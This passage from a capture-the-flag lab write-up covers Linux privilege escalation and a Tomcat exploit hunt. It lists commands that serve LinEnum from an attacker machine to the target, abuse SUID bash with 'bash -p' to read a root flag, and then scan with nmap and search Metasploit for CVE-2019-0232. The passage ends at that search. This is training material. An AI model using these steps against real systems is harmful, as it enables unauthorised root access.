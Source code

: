     `kali$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

    `kali$ python3 -m http.server 4444`

    `bash-4.4$ wget 10.4.5.126:4444/LinEnum.sh`

    `bash-4.4$ chmod +x LinEnum.sh`

    `bash-4.4$ ./LinEnum.sh`

    > [+] Possibly interesting SUID files:
    -rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash

3. Check GTFOBins:
    1. For /bin/bash: https://gtfobins.github.io/gtfobins/bash/#file-read

        `bash-4.4$ export LFILE=/root/flag.txt; bash -c 'echo "$(<$LFILE)"'`

        `bash: /root/flag.txt: Permission denied`

    2. For /usr/bin/pkexec: [https://gtfobins.github.io/gtfobins/pkexec/](https://gtfobins.github.io/gtfobins/pkexec/)

        `bash-4.4$ pkexec /bin/sh`

        `==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===`

        `Authentication is needed to run '/bin/sh' as the super user`

        `Authenticating as: root`

        `Password:`

        `polkit-agent-helper-1: pam_authenticate failed: Authentication failure`

        `==== AUTHENTICATION FAILED ===`

        `Error executing command as another user: Not authorized`

4. Try something else:

    `bash-4.4$ bash -p` →

    `bash-4.4# cat /root/flag.txt` → success!

    (Actually related to https://gtfobins.github.io/gtfobins/bash/#suid but didn't need the first line)

## [Day 12] Networking: Ready, set, elf. [msf]

1. Find the web server

    `$ sudo nmap 10.10.30.25 -T4`

    `8080/tcp open  http-proxy`

2. Visit the web server: http://10.10.30.25:8080/ → Apache Tomcat/9.0.17
3. Find a vulnerability" Google "Apache Tomcat/9.0.17 cve" → [https://www.cvedetails.com/cve/CVE-2019-0232/](https://www.cvedetails.com/cve/CVE-2019-0232/)
4. Find an exploit and run it

    `$ msfconsole`

    `msf6 > search CVE-2019-0232`
